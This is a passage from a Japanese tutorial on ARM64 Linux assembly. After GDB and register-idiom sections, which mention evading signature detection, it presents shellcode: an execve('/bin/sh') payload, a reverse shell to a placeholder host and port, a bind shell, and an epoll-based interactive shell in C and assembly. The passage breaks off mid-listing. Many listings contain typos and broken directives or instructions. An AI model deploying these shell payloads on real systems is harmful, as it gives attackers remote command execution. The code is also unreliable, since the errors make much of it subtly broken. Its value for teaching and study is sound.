    ldr     \Rn, [sp], 16
.endm
```

### 条件アセンブリ

GNU Cコンパイラ同様、GASもif-elseプリプロセッサディレクティブを提供しています。
以下はCの例です。

```c
#ifdef BIND
    // bind用のコードをコンパイル
#else
    // connect用のコードをコンパイル
#endif
```

次はGASの例です。

```
.ifdef BIND
    // bind用のコードをアセンブル
.else
    // connect用のコードをアセンブル
.endif
```

Cの#ifndefディレクティブに相当するディレクティブもサポートしています。

```
.ifnotdef   BIND
    // connect用のコードをアセンブル
.else
    // bind用のコードをアセンブル
.endif
```

### 3.8 コメント

以下はアセンブラでは無視されます。コードが何を行うかについての説明を提供する
ことを意図しています。Cスタイルのコメント`/* */`かC++スタイルのコメント`//`を
選択するのが良いでしょう。アットマーク(`@`)とハッシュ(`#`)も有効なコメント
記号ですが、アセンブリソースコードにプリプロセッサを提供する場合、ハッシュ記号で
始まるコメントは問題になる可能性があることを知っておく必要があります。私は
1行のコメントにはC++スタイル、コメントブロックにはCスタイルを使うことが多いです。

```
# This is a comment

// This is a comment

/*
    This is a comment
*/

@ This is a comment
```

## GNUデバッガ

バグの場所を見つけるためにコードの実行を厳密に監視することが必要な場合があります。
これは通常、ブレークポイントや各命令のシングルステップ実行で行います。

### 4.1 レイアウト

GDBにはデバッグを強化する様々なフロントエンドがあります。個人的にはGDBはあまり
使っていないのでどれにも精通していません。私が行っている設定はディスアセンブルと
レジスタを表示する単純な分割レイアウトです。単純なコードを書くにはこれで必要十分
な働きをしますが、フロントエンドを試してみるのも良いかもしれません。次のスクリーン
ショットは分割レイアウトがどのようなものかを示しています。



分割レイアウトを設定するには、次の行を`$HOME/.gdbinit`に保存してください。

```
layout split
layout regs
```

### 4.2 コマンド

以下はコードを書く際に便利なコマンドです。

<table>
<tr><th width="33%">コマンド</th><th>説明</th></tr>
<tr>
    <td>stepi</td>
    <td>命令をステップイン（サブルーチンに入る）</td>
</tr>
<tr>
    <td>nexti</td>
    <td>命令をステップオーバ（サブルーチン呼び出しをスキップ）</td>
</tr>
<tr>
    <td>set follow-fork-mode child</td>
    <td>子プロセスをデバッグ</td>
</tr>
<tr>
    <td>set follow-fork-mode parent</td>
    <td>親プロセスをデバッグ</td>
</tr>
<tr>
    <td>layout split</td>
    <td>ソース、アセンブリ、コマンドの3ウィンドウを表示する</td>
</tr>
<tr>
    <td>layout regs</td>
    <td>レジスタウィンドウを表示する</td>
</tr>
<tr>
    <td>break &lt;address&gt;</td>
    <td>addressにブレークポイントを設定する</td>
</tr>
<tr>
    <td>refresh</td>
    <td>スクリーンレイアウトをリフレッシュする</td>
</tr>
<tr>
    <td>tty [device]</td>
    <td>デバッグ処理に使用する端末装置を指定する</td>
</tr>
<tr>
    <td>continue</td>
    <td>実行を継続する</td>
</tr>
<tr>
    <td>run</td>
    <td>プログラムをはじめから実行する</td>
</tr>
<tr>
    <td>define</td>
    <td>複数のコマンド1つのユーザ定義コマンドにまとめる</td>
</tr>
</table>

コードの実行中にウィンドウが不安定になることがあります。これを回避する一つの
方法は`refresh`コマンドを使用することですが修正されるのはおそらく一度だけです。
`define`コマンドを使えば複数のコマンドを1つのマクロにまとめることができます。

```
(gdb) define stepx
Type commands for definition of "stepx"
End with a line saying just "end".
>stepi
>refresh
>end
(gdb)
```

これは動きますが理想的なものではありません。画面はバンピーなままです。私が
見つけた最良の回避策は新しいターミナルウィンドウを作成することです。
TTYを取得し、これをGDBで使用します。たとえば: `tty /dev/pts/1`

## 一般的な操作

レジスタの初期化や内容のチェックはどのアセンブリ言語でももっとも一般的な操作です。
これらの操作を行う複数の方法を知っておくとシグネチャ検出ツールを回避するのに役立つ
でしょう。ここで紹介するのは決して広範な方法のリストではありません。どのような
操作にも無数の方法があり、それはどのくらいの命令を使用したいかに依存するからです。

### 5.1 レジスタの保存

19本のレジスタは呼び出し側のために保存することなく自由に使うことができます。
これと比較するとx86では3本、AMD64では5本のレジスタしか使えません。ARMの些細な
問題点はサブルーチンの呼び出しです。INTELのCPUと違って、ARMはリターンアドレスを
スタックに格納せず、x30レジスタの別名であるリンクレジスタ（LR）に格納します。
Calleeはサブルーチンを呼び出す場合、LR/x30を保存しなければなりません。これを
行わないと問題が発生します。あなたがARM32から移行したのであればレジスタを保存
するpush命令とpop命令の利便性が恋しいでしょう。これらの命令は非推奨となりロード
命令とストア命令に取って代わられましたので、保存にはSTR/STPを、復元にはLDR/LDPを
使用する必要があります。ここではスタックを使ったレジスタのセーブ/リストアの方法を
説明します。

```
// push {x0}
// [base - 16] = x0
// base = base - 16
str     x0, [sp, -16]!

// pop {x0}
// x0 = [base]
// base = base + 16
ldr     x0, [sp], 16

// push {x0, x1}
stp     x0, x1, [sp, -16]!

// pop {x0, x1}
ldp     x0, x1, [sp], 16
```

1つのレジスタを格納するのに何故16を使うのか不思議に思うかもしれません。スタックは
常に16バイトアラインでなければなりません。アラインメントされていないアクセスは例外
を発生させます。

### 5.2 レジスタのコピー

以下の最初の例が「普通の」方法で、他は代替の方法です。

```
// x1をx0に移動する
mov     x0, x1

// x1のビット0-63を抽出して、x0にゼロ拡張で格納する
ubfx    x0, x1, 0, 63

// x0 = {x1 & ~0}
bic     x0, x1, xzr

// x0 = x1 >> 0
lsr     x0, x1, 0

// 巡回シフトを使用してx1をx0に移動する
ror     x0, x1, 0

// x1のビット0-63を抽出して、x0に挿入する
bfxil   x0, x1, 0, 63
```

### 5.3 レジスタを0に初期化

カウンタの初期化したり`i = 0`、システムコールへNULL/0を渡すことはよくあります。
これらは次のように行います。

```
// 即値の0をレジスタに移動する
mov     x0, 0

// ゼロレジスタをコピーする
mov     x0, xzr

// 自身との排他的ORを取る
eor     x0, x0, x0

// 自身を引く
sub     x0, x0, x0

// ゼロレジスタとビット単位ANDをとる
// セロレジスタの代わりに即値0を使ってもよい
and     x0, x0, xzr

// ゼロレジスタをかける
mul     x0, x0, xzr

// ゼロレジスタから64ビットを抽出してx0におく
bfxil   x0, xzr, 0, 63

// ゼロレジスタを右ローテートする
ror     x0, xzr, 0

// ゼロレジスタを論理右シフトする
lsr     x0, xzr, 0

// ゼロレジスタのバイトを反転する
rev     x0, xzr
```

### 5.4 レジスタを1に初期化

カウンタを1からスタートすることはまれですがシステムコールに1をわたすことは
よくあります。

```
// 1をx0に移動する
mov     x0, 1

// x0とx0を比較して、同じであればx0をセットする
cmp     x0, x0
cset    x0, eq

// ゼロレジスタをビット単位NOTしてx0に格納し、それを負値化する
mvn     x0, xzr
neg     x0, x0
```

### 5.5 レジスタを-1に初期化

システムコールにはこの値を必要とするものがあります。

```
// レジスタに−1を移動する
mov     x0, -1

// ゼロレジスタを反転コピーする
mvn     x0, xzr

// x0 = ~(x0 ^ x0)
eon     x0, x0, x0

// x0 = (x0 | ~xzr)
orn     x0, x0, xzr

// x0 = (int)0xff
mov     w0, 255
sxtb    w0, w0

// x0 = (x0 == x0) ? -1 : x0
cmp     x0, x0
csetm   x0, eq
```

### 5.6 レジスタを0x8000_0000に初期化

現時点では曖昧に思えるかもしれませんが、X25519のようなアルゴリズムはこの値を
換算(reduction)ステップに使います。

```
mov     w0, 0x80000000

// w0のビット31をセットする
mov     w0, 1
mov     w0, w0, lsl 31

// w0のビット31をセットする
mov     w0, 1
ror     w0, w0, 1

// w0のビット31をセットする
mov     w0, 1
rbit    wo, w0

// w0のビット31をセットする
eon     w0, w0, w0
lsr     w0, w0, 1
add     w0, w0, 1

// w0のビット31をセットする
mov     w0, -1
extr    w0, w0, wzr, 1
```

### 5.7 1/TRUEのテスト

TRUEを返す関数は通常成功を示します。以下はそれをテストする方法です。

```
// x0と1を比較して、等しければ分岐する
cmp     x0, 1
beq     tru

// x0とゼロレジスタを比較して、等しくなければ分岐する
cmp     x0, xzr
bne     true

// x0から1を引いてフラグをセットし、等しければ（Zフラグがセット）分岐する
subs    x0, x0, 1
beq     true

// x0を負値化してフラグをセットし、x0が負であれば分岐する
negs    x0, x0
bmi     true

// x0がゼロでない場合、条件分岐する
cbnz    x0, true

// ビット0をテストして、ゼロでなければ分岐する
tbnz    x0, 0, true
```

### 5.8 0/FALSEのテスト

この条件を評価する手で書かれたアセンブリコードを見ると通常はCMP命令が
使われています。この命令はデスティネーションレジスタからソースレジスタを引き、
フラグをセットして、結果を破棄します。

```
// x0 == 0
cmp     x0, 0
beq     false

// x0 == 0
cmp     x0, xzr
beq     false

ands    x0, x0, x0
beq     false

// ANDSと同じだが、結果を破棄する
tst     x0, x0
beq     false

// x0 == -0
negs    x0
beq     false

// (x0 - 1) == -1
subs    x0, x0, 1
bmi     false

// if (!x0) goto false
cbz     x0, false

// if (!x0) goto false
tbz     x0, 0, false
```

### 5.9 -1のテスト

失敗したことを-1などの負値を返すこと示す関数があります。最初の例では
CMNコマンドが使用されています。この命令はCMPと全く同じように振る舞い
ますが、CMPと違い、ソース値（レジスタまたは即値）をディスティネーション
レジスタに加えて、フラグを設定して、結果を破棄します。

```
// w0 == -1
cmn     w0, 1
beq     failed

// w0 == -1
cmn     w0, wzr
bmi     failed

// 負値?
ands    w0, w0, w0
bmi     failed

// ANDと同じだが、結果を破棄する
tst     w0, w0
bmi     failed

// w0 & 0x80000000
tbz     w0, 31, failed
```

## 6. Linuxのシェルコード

オペレーティングシステムの開発、ブートコードの作成、リバースエンジニアリング、
脆弱性の攻撃、これらはすべてアセンブリ言語を学ぶ正当な理由です。バグを発見する
にはシェルコードの書き方を把握する必要があります。シェルコードはシステムコールを
使ってオペレーティングシステムと対話するコンパクトな位置独立のコードです。

### 6.1 システムコール

システムコールはユーザーとより高い特権レベルで動作しているカーネル空間との間の
橋渡しをするものです。各コールには固有の番号があり、これは基本的にはカーネルに
ある関数ポインタの配列へのインデックスです。ディスク上のファイルへの書き込みや
ネットワーク上でのデータの送受信、画面へのメッセージの表示など、これらすべては
どこかの時点でシステムコールを介して実行する必要があります。

システムコールの完全なリストは[githubのLinuxソースツリー](https://github.com/torvalds/linux/blob/master/include/uapi/asm-generic/unistd.h)にありますが、
既にARM64で動作するLinuxシステムにログインしているなら`/usr/include/asm-generic/unistd.h`にリストを見つけることができるでしょう。調べる手間を省くために以下に
いくつか紹介します。

```
// Linux/AArch64システムコール
  .equ SYS_epoll_create1,   20
  .equ SYS_epoll_ctl,       21
  .equ SYS_epoll_pwait,     22
  .equ SYS_dup3,            24
  .equ SYS_fcntl,           25
  .equ SYS_statfs,          43
  .equ SYS_faccessat,       48
  .equ SYS_chroot,          51
  .equ SYS_fchmodat,        53
  .equ SYS_openat,          56
  .equ SYS_close,           57
  .equ SYS_pipe2,           59
  .equ SYS_read,            63
  .equ SYS_write,           64
  .equ SYS_pselect6,        72
  .equ SYS_ppoll,           73
  .equ SYS_splice,          76
  .equ SYS_exit,            93
  .equ SYS_futex,           98
  .equ SYS_kill,           129
  .equ SYS_reboot,         142
  .equ SYS_setuid,         146
  .equ SYS_setsid,         157
  .equ SYS_uname,          160
  .equ SYS_getpid,         172
  .equ SYS_getppid,        173
  .equ SYS_getuid,         174
  .equ SYS_getgid,         176
  .equ SYS_gettid,         178
  .equ SYS_socket,         198
  .equ SYS_bind,           200
  .equ SYS_listen,         201
  .equ SYS_accept,         202
  .equ SYS_connect,        203
  .equ SYS_sendto,         206
  .equ SYS_recvfrom,       207
  .equ SYS_setsockopt,     208
  .equ SYS_getsockopt,     209
  .equ SYS_shutdown,       210
  .equ SYS_munmap,         215
  .equ SYS_clone,          220
  .equ SYS_execve,         221
  .equ SYS_mmap,           222
  .equ SYS_mprotect,       226
  .equ SYS_wait4,          260
  .equ SYS_getrandom,      278
  .equ SYS_memfd_create,   279
  .equ SYS_access,        1033
```

値を返すために必要なレジスタ以外はすべて保存されます。システムコールは結果をx0で
返しますが条件フラグを含む他のすべては変わりません。シェルコードでは文字列には
即値とスタックだけを使用します。これは私が推奨するアプローチです。スタックに格納
する前に文字列を操作することができるかれです。LDRとリテラルプールの使用は良い
代替方法です。

### 6.2 トレース

"strace"はコードの問題点を示すことができるLinux用の診断・デバッグユーティリティ
です。このツールはどのシステムコールがカーネルで実装されており、どのシステム
コールがGLIBCの単なるラッパー関数であるかを表示します。シェルコードを書いていて
わかったのですが、dup2, pipe, forkなどのシステムコールは存在しません。GLIBCに
dup3, pipe2, cloneを呼び出すラッパー関数があるだけです。

### シェルの実行

```
// 40バイト

    .arch   armv8.4-a

    .include "include.inc"

    .global _start
    .text

_start:
    // execve("/bin/sh", NULL, NULL);
    mov     x8, SYS_execve
    mov     x2, xzr             // NULL
    mov     x1, xzr             // NULL
    movq    x3, BINSH           // "/bin/sh#
    str     x3, [sp, -16]!      // 文字列をスタックに格納
    mov     x0, sp
    svc     0
```

### 6.4 コマンドの実行

リバース接続やバインドシェルはコマンド実行に代わる良い方法です。システムが
netcatやncat, wget, curl, GETを実行できるとコマンド実行はシステムをさらに危険に
さらす可能性があるからです。以下は単にコンソールに"Hello, World!"とエコーする
シェルコードです。

```
// 64バイト

    .arch   arvm8-a
    .align  4

    .include    "include.inc"

    .global _start
    .text

_start:
    // execve("/bin/sh", {"/bin/sh", "-c", cmd, NULL}, NULL);
    movq    x0, BINSH           // x0 = "/bin/sh\o"
    str     x0, [sp, -64]!
    mov     x0, sp
    mov     x1, 0x632d          // x1 = "-c"
    str     x1, [sp, 16]
    add     x1, sp, 16
    adr     x2, cmd             // x2 = cmd
    stp     x0, x1,  [sp, 32]   // "-c" "/bin/sh"をスタックに格納
    stp     x2, xzr, [sp, 48]   // cmd, NULLを格納
    mov     x2, xzr             // pend = NULL
    add     x1, sp, 32          // x1 = argv
    mov     x8, SYS_execve
    svc     0
cmd:
    .asciz "echo Hello, World!"
```

### 6.5 TCPを介したシェルにリバース接続

リバースシェルはリモートホストに発信接続し、接続後、入力を受け付けるシェルを
生成します。PC相対命令ではなく、ネットワークアドレス構造体を即値で初期化します。

```
// 120バイト

    .arch   armv8.4-a

    .incude "incllude.inc"

    .equ    PORT, 1234
    .equ    HOST, 0x100007F     // 127.0.0.1

    .global _start
    .text

_start:
    // s = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
    mov     x8, SYS_socket
    mov     x2, IPPROTO_IP
    mov     x1, SOCK_STREAM
    mov     x0, AF_INET
    svc     0

    mov     w3, w0              // w3 = s

    // connect(s, &sa, sizeof(sa));
    mov     x8, SYS_connect
    mov     x2, 16
    mov     x1, ((HOST << 32) | ((((PORT & 0xFF) << 8) | (PORT >> 8)) << 16) | AF_INET)
    str     x1, [sp, -16]!
    mov     x1, sp              // x1 = &sa
    svc     0

    // 次の順で
    //
    // dup3(s, STDERR_FILENO, 0);
    // dup3(s, STDOUT_FILENO, 0);
    // dup3(s, STDIN_FILENO,  0);
    mov     x8, SYS_dup3
    mov     x1, STDERR_FILENO + 1
c_dup:
    mov     x2, xzr
    mov     w0, w3
    subs    x1, x1, 1
    svc     0
    bne     c_dup

    // execve("/bin/sh", NULL, NULL)
    mov     x8, SYS_execve
    movq    x0, BINSH
    str     x0, [sp]
    mov     x0, sp
    svc     0
```

### 6.6 TCPを介してシェルをバインド

リバースシェルとほとんど同じですが、connectの代わりに3つのシステムコール,
bind, listen, acceptを使って着信を待ちます。これは先に説明した条件付き
アセンブリディレクティブを使用してconnectを使うように簡単に更新することが
できます。

```
// 148バイト

    .arch   armv8.4-a

    .include    "include.inc"

    .equ    PORT, 1234

    .global _start
    .text

_start:
    // s = socket(AF_INET, SOCK_STREAM,, IPPROTO_IP);
    mov     x8, SYS_socket
    mov     x2, IPPROTO_IP
    mov     x1, SOCK_STREAM
    mov     x0, AF_INET
    svc     0

    mov     w3, w0              // w3 = s

    // bind(s, &sa, sizeof(sa));
    mov     x8, SYS_bind
    mov     x2, 16
    mov     w1, (((((PORT & 0xFF) << 8) | (PORT >> 8)) << 16) | AF_INET)
    str     x1, [sp, -16]!
    mov     x1, sp
    svc     0

    // listen(s, 1);
    mov     x8, SYS_listen
    mov     x1, 1
    mov     w0, w3
    svc     0

    // s = accept(s, 0, 0);
    mov     x8, SYS_accept
    mov     x2, xzr
    mov     x1, xzr
    mov     w0, w3
    svc     0

    mov     w3, w0

    // 次の順で
    //
    // dup3(s, STDERR_FILENO, 0);
    // dup3(s, STDOUT_FILENO, 0);
    // dup3(s, STDIN_FILENO,  0);
    mov     x8, SYS_dup3
    mov     x1, STDERR_FILENE + 1
c_dup:
    mov     w0, w3
    subs    x1, x1, 1
    svc     0
    bne     c_dup

    // execve("/bin/sh", NULL, NULL);
    mov     x8, SYS_execve
    movq    x0, BINSH
    str     x0, [sp]
    mov     x0, sp
    svc     0
```

### 6.7 同期シェル

「そして今度は全く違うものを。」

バインドシェルやリバースシェルは何も問題ありません。問題なく動きます。しかし、
データの入出ストリームを操作できないので2つのシステムの間で機密性を与えることが
できません。これを解決するには同期を使用します。この目的のために、ほとんどの
POSIXシステムはファイル記述子のI/Oを監視できるselect関数が提供しています。
しかし、selectは1つのプロセスで監視できるディスクリプタの数に制限があるため、
BSDではkqueueが、Linuxではepollが開発されこの制限を受けなくなりました。

```c
#define _GNU_SOURCE

#include <unistd.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <arpa/inet.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>
#include <signal.h>
#include <sys/epoll.h>
#include <fcntl.h>
#include <sched.h>

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>

int main(void) {
    struct sockaddr_in  sa;
    int                 i, r, w, s, len, efd;
#ifdef BIND
    int                 s2;
#endif
    int                 fd, in[2], out[2];
    char                buf[BUFSIZ];
    struct epoll_event  evts;
    char                *args[] = {"/bin/sh", NULL};
    pid_t               ctid, pid;

    //create pipes for redirection of stdin/stdout/stderr
    pipe2(in, 0);
    pipe2(out, 0);

    // fork process
    ctid = syscall(SYS_gettid);

    pid = syscall(SYS_clone, CLONE_CHILD_SETTID | CLONE_CHILD_CLEARTID | SIGCHLD,
                  0, NUL, 0, &ctid);

    // if child process
    if (pid == 0) {
        // assign read end to stdin
        dup3(in[0],  STDIN_FILENO,  0);
        // assign write end to stdout
        dup3(out[1], STDOUT_FILENO, 0);
        // assign write end to stderr
        dup3(out[1], STDERR_FILENO, 0);

        // close pipes
        close(in[0]);  close(in[1]);
        close(out[0]); close(out[1]);

        // execute shell
        execve(args[0], args, 0);
    } else {
        // close read and write ends
        close(in[0]); close(out[1]);

        // create a socket
        s = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);

        sa.sin_family = AF_INET;
        sa.sin_port   = htons(atoi("1234"));

#ifdef BIND
        // bind to port for incoming connection
        sa.sin_addr.s_addr = INADDR_ANY;

        bind(s, (struct sockaddr *)&sa, sizeof(sa));
        listen(s, 0);
        r = accept(s, 0, 0);
        s2 = s; s = r;
#else
        // connect to remote host
        sa.sin_addr.s_addr = inet_addr("127.0.0.1");

        r = connect(s, (struct sockaddr *)&sa, sizeof(sa));
#endif
        // if ok
        if (r >= 0) {
            // open an epoll file descriptor
            efd = epoll_create1(0);

            // add 2 descriptors to monitor stdout and socket
            for (i = 0; i < 2; i++) {
                fd = (i == 0) ? s : out[0];
                evts.data.fd = fd;
                evts.evnets  = EPOLLIN;

                epoll_ctl(efd, EPOLL_CTL_ADD, fd, &evts);
            }

            // now loop until user exits or some other error
            for (;;) {
                f = epoll_pwait(efd, &evts, 1, -1, NULL);

                // error? bail out
                if (r < 0) break;

                // not input? bail out
                if (!(evts.events & EPOLLIN)) break;

                fd = evts.data.fd;

                // assign socket or read end of output
                r = (fd == s) ? s     : out[0];
                // assign socket or write end of input
                w = (fd == s) ? in[1] : s;

                // read from socket or stdout
                len = read(r, buf, BUFSIZ);

                if (!len) break;

                // encrypt/decrypt data here

                // write to socket or stdin
                write(w, buf, len);
            }
            // remove 2 descriptors
            epoll_ctl(efd, EPOLL_CTL_DEL, s, NULL);
            epoll_ctl(efd, EPOLL_CTL_DEL, out[0], NULL);
            close(efd);
        }
        // shutdown socket
        shutdown(s, SHUT_RDWR);
        close(s);
#ifdef BIND
        close(s2);
#indif
        // terminate shell
        kill(pid, SIGCHLD);
    }
    close(in[1]);
    close(out[0]);
    return 0;
}
```

これらの呼び出しがA64セットでどのように実装されるかを見てみましょう。まず、
標準I/Oハンドルのパイプディスクリプタへの置き換えです。

```c
// assign read end to stdin
dup3(in[0],  STDIN_FILENO,  0);
// assign write end to stdout
dup3(out[1], STDOUT_FILENO, 0);
// assign write end to stderr
dup3(out[1], STDERR_FILENO, 0);
```

outのwriteエンドをstdoutとstderrに、inのreadエンドをstdinに割り当てています。
これは次のように行うことができます。

```
mov     x8, SYS_dup3
mov     x2, xzr
mov     x1, xzr
ldr     w0, [sp, in0]
svc     0

add     x1, x1, 1
ldr     w0, [sp, out1]
svc     0

add     x1, x1, 1
ldr     w0, [sp, out1]
svc     0
```

これには11命令、44バイトが使用されます。さらにバイト数を削減したい場合は
ループを使うことができるでしょう。STDIN_FILENOの値は都合の良いことに0であり、
STDERR_FILENOは2です。単に0から3までのループを使い、正しいデスクリプタの
選択には三項演算子を使うことができます。

```c
for (i = 0; i < 3; i++) {
    dup3(i == 0 ? in[0] : out[1], i, 0);
}
```

これと同じ操作をアセンブリで行うにはCSEL命令を使用することができます。

```
    mov     x8, SYS_dup3
    mov     x1, (STDERR_FILENO + 1)     // x1 = 3
    mov     x2, xzr                     // x2 = 0
    ldp     w4 w3, [sp, out1]           // w4 = out[1], w3 = in[0]
c_dup:
    subs    x1, x1, 1                   //
    csel    w0, w3, w4, eq              // w0 = (x1 == 0) ? in[0] : out[1]
    svc     0
    cbnz    x1, c_dup
```

ループを使うことで3つの命令を削除し、合計12バイトが節約されました。同様な
操作をパイプハンドルのクローズにも実装できます。Cのコードでは次のように
別々のステートメントで1つずつ閉じているだけです。

```c
close(in[0]);  close(in[1]);
close(out[0]); close(out[1]);
```

アセンブリコードではループを使用します。8命令ではなく6命令が使われています。

```
    mov     x1, 4 * 4       // i = 4
    mov     x8, SYS_close
cls_pipe:
    sub     x1, x1, 4       // i--
    ldr     w0, [sp, x1]    // w0 = pipes[i]
    svc     0
    cbnz    x1, cls_pipe    // while (i != 0)
```

ファイルディスクリプタの監視にはpselect6システムコールではなくepoll_pwait
システムコールを使用します。epoll_pwaitを呼び出す前にepoll_create1を使用して
epollファイルディスクリプタを作成し、それにepoll_ctlを使用してディスクリプタを
追加する必要があります。リモートの相手との接続が確立された後に以下のコードで
実行します。

```c
// add 2 descriptors to monitor stdout and socket
for (i = 0; i < 2; i++) {
    fd = (i == 0) ? s : out[0];
    evts.data.fd = fd;
    evts.events  = EPOLLIN;

    epoll_ctl(efd, EPOLL_CTL_ADD, fd, &evts);
}
```

プロセス状態を含むすべてのレジスタはシステムコールをまたいで保存されます。
そこで、上のコードは次のようにアセンブリで実装できるでしょう。

```
mov     x8, SYS_epoll_ctl
add     x3, sp, evts            // x3 = &evts
mov     x1, EPOLL_CTL_ADD       // x1 = EPOLL_CTL_ADD
mov     x4, EPOLLIN

ldr     w2, [sp, s]             // w2 = s
stp     x4, x2, [sp, evts]
ldr     w0, [sp, efd]           // w0 = efd
svc     0

ldr     w2, [sp, out0]          // w2 = out[0]
stp     x4, x2, [sp, evts]
ldr     w0, [sp, efd]           // w0 = efd
svc     0
```

ここでは12命令、48バイトが使用されています。ループを使うとさらにスペースを
節約できるか見てみましょう。EPOLL_CT_ADDとEPOLLINが共に1であることに気づいた
人がいるでしょう。つぎのように4バイト節約できます。

```
    // epoll_ctl(efd, EPOLL_CTL_ADD, fd, &evts)
    ldr     w2, [sp, s]
    ldr     w4, [sp, out0]
poll_init:
    mov     x8. SYS_epoll_ctl
    mov     x1, EPOLL_CT_ADD
    add     x3, sp, evts
    stp     x1, x2, [x3]
    ldr     w0, [sp, efd]
    svc     0
    cmp     w2, w4
    mov     w2, w4
    bne     poll_init
```

events構造体の処理を継続する前に`epoll_pwait`システムコールから返された値を
チェックする必要があります。成功した場合はシグナルを受け取ったファイル
ディスクリプタの番号が返されます。`-1`の場合はエラーを示します。

```c
r = epoll_pwait(efd, &evts, 1, -1, NULL);

// error ? bail out
if (r < 0) break;
```

一般的な操作の-1をテストするを思い出してください。次のアセンブリコードを
使えるでしょう。

```
tst     x0, x0
bmi     cls_efd
```

A64はIF文を1命令で実行できる条件分岐命令を提供しています。

```
tbnz    x0, 31, cls_efd
```

このチェックを終えたら、次にシグナルが入力の結果であったのか決定する必要が
あります。ここではパイプのread側とソケットへの入力しか監視していないからです。
その他のエベントはすべてエラーを示していることになります。

```c
// not input? bail out
if (!(evts.events & EPOLLIN)) break;

fd = evts.data.fd;
```

EPOLLINの値は1であり、ここではこのタイプのイベントしか望んでいません。イベントの
値と1との論理積をとり、結果がゼロであれば相手との接続は切れています。ロードペア
命令を使ってeventsとdata_fdを同時にロードします。

```
// x0 = evts.events, x1 = evts.data.fd
ldp     x0, x1, [sp, evts]

// if (!(evts.events & EPOLLIN)) break;
tbz     w0, 0, cls_efd
```

ここではout[0]とsのいずれからから読み込みます。

```c
// assign socket or read end of output
r = (fd == s) ? s     : out[0];
// assign socket or write end of input
w = (fd == s) ? in[1] : s;
```

非常に便利な条件選択命令を使うことで読み書きのための正しいディスクリプタを
選択することができます。

```
// w3 = s
ldr     w3, [sp, s]
// w5 = in[1], w4 = out[0]
//      w5, w4, [sp, in1]

// fd == s
cmp     w1, w3

// r = (fd == s) ? s : out[0];
csel    w0, w3, w4, eq

// w = (fd == s) ? in[1] : s;
csel    w3, w5, w3, eq
```

最終的な同期シェルのアセンブリコードは次のようになります。

```
    .arch   armv8.4-a
    .align  4

    // default TCP port
    .equ    PORT, 1234

    // default host, 127.0.0.1
    .equ    HOST, 0x0100007f

    // comment out for a reverse connecting shell
    .equ    BIND, 1

    // comment out for code to behave as a function
    .equ    EXIT, 1

    .include    "include.inc"

    // structure for stack variables

            .struct 0
    p_in:   .skip   8
            .equ    in0, p_in + 0
            .qeu    in1, p_in + 4

    p_out:  .skip   8
            .equ    out0, p_out + 0
            .equ    out1, p_out + 4

    id:     .skip   8
    efd:    .skip   4
    s:      .skip   4

    .ifdef  BIND
    s2:     .skip   8
    .endif

    evts:   .skip   16
            .equ    evnets,     evts + 0
            .equ    data_fd,    evts + 8

    buf:    .skip   BUFSIZ
    ds_tbl_size:

    .global _start
    .text
_start:
    // allocate memory for variables
    // ensure data structure aligned by 16 bytes
    sub     sp, sp, (ds_tbl_size & -16) + 16

    // create pipes for stdin
    // pipe2(in, 0);
    mov     x8, SYS_pipe2
    mov     x1, xzr
    mov     x0, sp, p_in
    svc     0

    // create pipes for stdout + stderr
    add     x0, sp, p_out
    svc     0

    // syscall(SYS_gettid);
    mov     x8, SYS_gettid
    svc     0
    str     w0, [sp, id]

    // clone(CLONE_CHILD_SETTID) | CLONE_CHILD_CLEARTID | SIGCHLD,
             0, NULL, NULL, &ctid);
    mov     x8, SYS_clone
    add     x4, sp, id          // ctid
    mov     x3, xzr             // newtls
    mov     x2, xzr             // ptid
    movl    x0, (CLONE_CHILD_SETTID + CLONE_CHILD_CLEARTID + SIGCHLD)
    svc     0
    str     w0, [sp, id]        // save id
    cbnz    w0, opn_con         // if already forked? open connection

    // in this order
    //
    // dup3 (out[1], STDERR_FILENO, 0);
    // dup3 (out[1], STDOUT_FILENO, 0);
    // dup3 (in[0],  STDIN_FILENO,  0);
    mov     x8, SYS_dup3
    mov     x1, STDERR_FILENO + 1
    ldr     w3, [sp, in0]
    ldr     w4, [sp, out1]
c_dup:
    subs    x1, x1, 1
    // w = (x1 == 0) ? in[0] : out[1]
    csel    w0, w3, w4, eq
    svc     0
    cbnz    x1, c_dup

    // close pipe handles in this order.
    //
    // close(in[0]);
    // close(in[1]);
    // close(out[0]);
    // close(out[1]);
    mov     x1, 4 * 4
    mov     x8, SYS_close
cls_pipe:
    sub     x1, x1, 4
    ldr     w0, [sp, x1]
    svc     0
    cbnz    x1, cls_pipe

    // execve("/bin/sh", NULL, NULL);
    mov     x8, SYS_execve
    movq    x0, BINSH
    str     x0, [sp, -16]!
    mov     x0, sp
    svc     0
opn_con]
    // close(in[0]);
    mov     x8, SYS_close
    ldr     w0, [sp, in0]
    svc     0

    // close(out[1]);
    ldr     w0, [sp, out1]
    svc     0

    // s = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
    mov     x8, SYS_sokcet
    //mov     x2, IPPROTO_IP
    mov     x1, SOCK_STREAM
    mov     x0, AF_INET
    svc     0

    mov     x2, 16          // x2 = sizeof(sin)
    str     w0, [sp, s]     // w0 = s
.ifdef BIND
    movl    w1, (((((PORT & 0xFF) << 8) | (PORT >> 8)) << 16) | AF_INET)
    str     x1, [sp, -16]!
    mov     x1, sp
    // bind (s, &sa, sizeof(sa));
    mov     x8, SYS_bind
    svc     0
    add     sp, sp, 16
    cbnz    x0, cls_sck     // if (x0 != 0) goto cls_sck

    // listen (s, 1);
    mov     x8, SYS_listen
    mov     x1, 1
    ldr     w0, [sp, s]
    svc     0

    // accept (s, 0, 0);
    mov     x8, SYS_accept
    mov     x2, xzr
    mov     x1, xzr
    ldr     w0, [sp, s]
    svc     0

    ldr     w1, [sp, s]     // load binding socket
    stp     w0, w1, [sp, s]
    mov     x0, xzr
.else
    movq    x1, ((HOST << 32) | (((((PORT & 0xFF) << 8) | (PORT >> 8)) << 16) | AF_INET))
    str     x1, [sp, -16]!
    mov     x1, sp
    // connect (s, &sa, sizeof(sa));
    mov     x8, SYS_connect
    svc     0
    add     sp, sp, 16
    cbnz    x0, cls_sck     // if (x0 != 0) goto cls_sck
.endif
    // efd = epoll_create1(0);
    mov     x8, SYS_epoll_create1
    svc     0
    str     w0, [sp, efd]

    // epoll_ctl(efd, EPOLL_CTL_ADD, fd, &evts);
    ldr     w2, [sp, s]
    ldr     w4, [sp, out0]
poll_init:
    mov     x8, SYS_epoll_ctl
